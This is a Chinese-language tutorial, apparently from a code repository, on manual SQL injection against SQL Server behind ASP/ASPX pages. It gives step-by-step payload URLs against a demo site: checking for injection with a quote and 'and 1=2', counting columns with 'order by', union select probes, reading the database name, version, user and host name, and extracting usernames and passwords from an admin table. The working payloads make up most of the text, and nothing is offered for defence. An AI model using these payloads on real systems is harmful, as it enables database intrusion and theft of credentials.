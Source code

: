 ## 1、简介

sqlserver经常与asp或者aspx一起使用，操作系统多数是win2012 win2018 
数据库版本 sql2008 sql2012

```http
http://www.demo1.com/index.aspx?id=1
```

![image-20210406221053069](../../acess/image-20210406221053069.png)

## 2、注释符号

单行注释：--空格 

多行注释 ：/* xxx */ 

## 3、判断是否注入

' 单引号是否报错

以下页面是否相同
and 1=2
and 1=1

## 4、判断列数

order by 

```http
http://www.demo1.com/index.aspx?id=1 order by 3
```

## 5、联合查询

联合查询 需要每个列的类型要一直 或者可以使用null 直到页面出错。

```http
http://www.demo1.com/index.aspx?id=-1 union select 1,'2','3'
http://www.demo1.com/index.aspx?id=-1 union select null,null,null
```

## 6、查询系统信息

db_name() 数据库名
@@version 版本信息
user_name() 当前用户
host_name()  计算机名称

```http
http://www.demo1.com/index.aspx?id=-1 union select 1,db_name(),host_name()
http://www.demo1.com/index.aspx?id=-1 union select 1,user_name(),@@version
```

![image-20210406224456660](../../acess/image-20210406224456660.png)

## 7、查询数据

```http
http://www.demo1.com/index.aspx?id=-1 union select null,username,password from admin
```

![image-20210406220453381](../../acess/image-20210406220453381.png)

